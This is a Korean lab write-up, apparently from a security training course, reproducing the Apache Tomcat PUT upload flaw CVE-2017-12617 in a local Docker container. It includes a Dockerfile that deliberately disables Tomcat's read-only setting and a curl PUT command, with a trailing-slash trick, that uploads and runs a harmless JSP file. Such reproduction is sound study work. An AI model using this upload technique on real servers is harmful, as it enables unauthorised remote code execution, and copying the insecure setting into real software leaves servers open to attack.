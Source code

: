 # Apache Tomcat PUT Upload 취약점 (CVE-2017-12617)

## 화이트햇 스쿨 3기 35반 편정혜\_9212

## 전체 PoC 흐름 요약

1. 취약 환경 구축 (Dockerfile, docker-compose 이용)
2. curl을 이용해 JSP 파일(shell.jsp) 업로드
3. 브라우저를 통해 shell.jsp 실행 및 결과 확인

## 취약점 정보

- **CVE ID**: CVE-2017-12617
- **취약점 설명**: Apache Tomcat 7.0.0 ~ 7.0.81 (Windows 환경)에서 HTTP PUT 메서드를 이용해 인증 없이 JSP 파일 업로드 및 실행이 가능합니다.
  PUT 메서드는 서버에 파일을 직접 업로드할 수 있도록 허용하는 HTTP 메서드입니다.
  Tomcat 서버에서 PUT 메서드가 잘못 설정되어 있을 경우, 공격자는 인증 없이 웹 쉘(JSP 파일 등)을 업로드하고 실행할 수 있어 원격 코드 실행(RCE)로 이어질 수 있습니다.
- **공격 방식**: HTTP PUT 메서드를 이용하여 JSP 파일 업로드 후 실행
- **영향**: 원격 코드 실행 (RCE)
- **공식 설명 링크**: [https://nvd.nist.gov/vuln/detail/CVE-2017-12617](https://nvd.nist.gov/vuln/detail/CVE-2017-12617)

## 환경 구축

- Docker
- docker-compose
- 테스트 브라우저: Chrome
- 터미널: CMD (또는 PowerShell)
- 운영체제: Windows 10

### Dockerfile

```dockerfile
FROM tomcat:7.0.81-jre8

RUN cd /usr/local/tomcat/conf \
    && LINE=$(nl -ba web.xml | grep '<load-on-startup>1' | head -n 1 | awk '{print $1}') \
    && ADDON="<init-param><param-name>readonly</param-name><param-value>false</param-value></init-param>" \
    && sed -i "${LINE}i\\${ADDON}" web.xml
```

### docker-compose.yml

```docker-compose.yml
version: '3'
services:
  tomcat:
    build: .
    ports:
      - "8080:8080"
```

## 실행

### 1. 취약 환경 레포 클론

kr-vulhub 저장소를 클론하여 CVE-2017-12617로 이동합니다.

`git clone https://github.com/gunh0/kr-vulhub.git`

[https://github.com/gunh0/kr-vulhub](https://github.com/gunh0/kr-vulhub)

### 2. 컨테이너 빌드 및 실행

Docker를 이용하여 Tomcat 서버를 빌드 및 실행합니다.

`docker-compose up --build`

![server-build](./capture1.png)

이후 http://localhost:8080으로 접속이 가능합니다.

![server-start](./capture2.png)

### 3. shell.jsp 파일 업로드

Tomcat 서버의 PUT 메서드를 이용하여 JSP 파일을 업로드합니다.

`curl -v -X PUT "http://localhost:8080/shell.jsp/" --data-binary "<% out.println(\"Hello JSP!\"); %>"`

업로드가 정상적으로 완료되면 HTTP/1.1 201 Created 또는 204 No Content 응답을 받습니다.

![Shell-jsp](./capture3.png)

### 4. 브라우저로 JSP 파일 실행

브라우저의 주소창에 다음 URL을 입력하여 업로드 된 파일을 실행합니다.

`http://localhost:8080/shell.jsp`

업로드된 shell.jsp에 브라우저로 접속하면 다음과 같은 결과를 볼 수 있습니다.

**Hello JSP!**

![Hello-JSP](./capture4.png)

### 5. 주의사항

- curl 명령어 사용 시 끝에 슬래시(`/`)를 붙이지 않으면 업로드에 실패할 수 있습니다.
- Docker 컨테이너가 정상적으로 기동되지 않는 경우, 포트 충돌이나 Dockerfile 오류를 확인하세요.

## 결론

이번 실습에서는 Apache Tomcat 7.0.81 버전의 PUT 메서드 취약점을 이용하여 인증 없이 JSP 파일을 업로드하고 실행하는 과정을 재현하였습니다.
Docker를 이용해 취약 환경을 구축하였으며, curl 명령어를 통해 shell.jsp 파일을 업로드하고 브라우저에서 직접 "Hello JSP!" 문구가 출력되는 것을 확인했습니다.
이를 통해 Tomcat 서버의 설정 미비가 심각한 보안 위협(RCE)으로 이어질 수 있음을 실습을 통해 검증할 수 있었습니다.

---

### Github repository

- 35반 편정혜 github 레포: [https://github.com/rainyhye/kr-vulhub/tree/main/Tomcat/CVE-2017-12617](https://github.com/rainyhye/kr-vulhub/tree/main/Tomcat/CVE-2017-12617)
- 35반 편정혜 Pull Request 링크 : [https://github.com/gunh0/kr-vulhub/pull/285](https://github.com/gunh0/kr-vulhub/pull/285)
